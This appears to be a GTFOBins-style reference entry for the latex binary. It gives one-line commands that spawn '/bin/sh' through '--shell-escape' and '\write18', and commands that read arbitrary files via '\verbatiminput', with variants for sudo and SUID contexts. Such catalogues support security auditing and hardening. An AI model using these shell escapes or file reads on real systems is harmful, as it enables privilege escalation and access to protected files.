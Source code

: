 functions:
  shell:
    - code: |
        latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  file-read:
    - description: The read file will be part of the output.
      code: |
        latex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
  sudo:
    - description: The read file will be part of the output.
      code: |
        sudo latex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
    - code: |
        sudo latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  limited-suid:
    - code: |
        ./latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
---

